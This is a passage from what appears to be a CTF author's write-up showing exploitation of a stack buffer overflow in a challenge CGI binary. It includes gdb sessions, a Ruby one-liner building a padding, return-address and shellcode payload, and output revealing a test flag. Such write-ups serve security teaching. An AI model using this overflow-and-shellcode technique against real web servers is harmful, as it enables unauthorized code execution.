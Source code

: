 Then run it in a debugger, updating the `CONTENT_LENGTH` every time:

```
$ CONTENT_LENGTH=177 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGTRAP, Trace/breakpoint trap.
0x00007fffffffd921 in ?? ()
```

`SIGTRAP` is exactly what we want to see! We now have three steps yet: 1) create a flag file on our test machine, 2) replace `cc` with *any* other payload, and 3) run it against the web server!

## Weaponization

First, let's create a flag on our local machine so we don't confuse ourselves:

```
ron@ridcully ~ $ sudo mkdir -p /home/ctf/
ron@ridcully ~ $ echo 'CTF{my-fake-flag}' | sudo tee /home/ctf/flag.txt
CTF{my-fake-flag}
```

Now, what do we want to use for a payload? We can use `msfvenom` or whatever we want to generate an x64 payload, but in all honesty, that sounds like too much work. I ended up going [to my own blog](/2021/bsidessf-ctf-2021-author-writeup-shellcode-primer-runme-runme2-and-runme3) to a challenge from BSidesSF 2021 and grabbed the [solution file](https://github.com/BSidesSF/ctf-2021-release/blob/main/runme/solution/solution.bin). I didn't even have to change the path - the necessary code is identical.

Here's how we generate our new exploit using the `solution.bin` file from 2021:

```
3.1.3 :007 > File.write('/tmp/poc.bin', ('A'*168)+("\xca\x27\x41\x00\x00\x00\x00\x00")+File.read("/tmp/solution.bin"))
 => 263
```

Update our `CONTENT_LENGTH` and debug it again:

```
$ CONTENT_LENGTH=263 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin 
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain

CTF{my-fake-flag}
_[Inferior 1 (process 465655) exited normally]
```
